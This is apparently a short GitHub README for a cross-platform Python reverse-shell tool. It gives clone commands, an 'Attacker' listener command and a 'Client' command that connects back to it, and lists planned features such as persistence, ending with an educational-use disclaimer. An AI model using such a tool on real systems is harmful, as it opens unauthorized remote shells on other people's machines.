

## Cross-Platform Reverse Shell Written with Python


## Installing 
```bash
git clone https://github.com/isa-programmer/reversed-shell
cd reversed-shell
```

## Attacker
```bash
python3 server.py 0.0.0.0 4444 # Byte size is optional defualt is 1024
```

## Client
```bash
python3 client.py 0.0.0.0 4444 # Byte size is optional defualt is 1024
```


## Features

- [x] Powershell and Bash support
- [ ] File uploading
- [ ] To ensure automatic opening at the beginning
- [ ] Multiple Session Support and Logging
- [ ] Encryption

> Note: This project was built for educational purposes. Do not test on machines without legal permission
